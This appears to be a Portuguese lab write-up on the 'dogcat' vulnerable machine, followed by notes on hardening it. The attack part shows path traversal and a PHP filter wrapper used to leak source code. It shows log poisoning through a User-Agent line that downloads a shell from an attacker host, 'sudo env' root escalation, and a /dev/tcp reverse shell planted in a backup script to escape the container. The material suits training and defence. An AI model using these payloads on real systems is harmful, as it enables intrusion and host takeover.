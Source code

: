 Maquina vulneravel (como atacar): 
![[Pasted image 20250805112448.png]]
Como o site não possui muitas funcionalidades uma das primeiras coisas que podemos fazer é mexer na URL dele para tentar caminhar pelos diretórios.
`<host>/?view=dog/../../../../../etc/passwd`
![[Pasted image 20250805112541.png]]
Notamos que o site nos devolve um erro que nos informa sobre uma função que adiciona ".php" na frente do final da query. Usando essa informação podemos tentar pegar o index do site.
![[Pasted image 20250805112817.png]]
Podemos ver que acertamos o arquivo porém ele esta carregando a si mesmo, o que da um erro. Usando um PHP Wrapper ( `php://filter/convert.base64-encode/resource=`), podemos traduzir o código para Base64 e tentar exfiltrar ele e ver o que o index.php do site faz.
![[Pasted image 20250805113012.png]]
Depois de decodificar a mensagem temos o seguinte:
```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```
Podemos ver que na parte do PHP temos a query ext que retira o ".php" da URL, permitindo navegar o diretório.
![[Pasted image 20250805114159.png]]
Podemos usar isso para ver os logs da aplicação: `<ip>/?view=dog/../../../../../var/log/apache2/access.log&ext=´
![[Pasted image 20250805114344.png]]
Testando um pouco mais a aplicação vemos que nos logs as URL são codificadas, mas o User-Agent não, assim, podemos injetar código na aplicação usando o campo do User-Agente:
` User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://<seu-ip>:<port>/<seuarquivoshell.php>')); ?>
![[Pasted image 20250805115959.png]]
Agora podemos acessar o arquivo de dentro do site, mas antes temos que subir um listener:
`netcat -lvnp <port>`

Acessamos: `http://<ip>/?view=dog/../shell.php&ext=`
![[Screenshot_2025-08-05_12-03-18.png]]

Agora podemos mexer dentro da maquina.
Primeiro temos que conseguir privilegios, para isso, podemos usar o comando `sudo -l`, que nos mostrar que comandos podemos usar sem ser root.
A máquina foi configurada com o binário `env` rodar como root sem senha. Podemos utiliza-lo para conseguir um shell root.
`sudo env /bin/bash`

![[Screenshot_2025-08-05_12-06-10.png]]
Temos root, porem, não paramos por ai, vemos que o hostname da maquina é `f5919935f134`, isso quer dizer que estamos dentro de um container.
Descobrimos que o container tem um backup dentro da pasta `/opt/backups`
e um script .sh para realiza-lo. Podemos alterar o backup.sh com um reverse shell bash simples para quando a maquina real executa-lo rodar nossa shell nos permitindo acesso a maquina real.
```bash
echo -e  '#!/bin/bash\nbash -i >& /dev/tcp/192.168.18.55/4446 0>&1' > backup.sh
```
![[Screenshot_2025-08-05_12-18-25.png]]
Conseguimos root na maquina!

**Maquina Defesa (como usar e o que foi mudado)**
Para utilizar a maquina temos que alterar usar o host atribuido ao endereço dela, para que o WAF implementado saiba a aplicação que vamos usar, isso pode ser feito alterando o arquivo /etc/hosts.
![[Screenshot_2025-08-05_12-26-36.png]]
Adicionamos a linha com `<ip da maquina>   dogcat.jims`
![[Screenshot_2025-08-05_12-27-39.png]]
Agora quando testamos qualquer exploit, o servidor devolve o seguinte:
![[Screenshot_2025-08-05_12-28-18.png]]
Neste simples passo já paramos o atacante completamente. Mas ainda há outras alterações que devem ser feitas para aumentar a segurança da aplicação.
1. Alterações no código (vendo o código anterior na sessão do ataque):
	Podemos alterar o código do index.php, para não permitir o acesso de outras paginas usando a query ext. Além disso implementamos uma whitelist para os caminhos permitidos. (ver CWEs e comentar sobre)
	![[Screenshot_2025-08-05_12-31-20.png]]
2. A binario env, não deve ser usado sem senha como root. Devemos retirar o ele do arquivo /etc/sudoers. (ver como fazer isso)
3. O backup do container deve ser feito por um usuario alternativo ao root da maquina com privilegios reduzidos.(ver como criar novo user e fazer isso)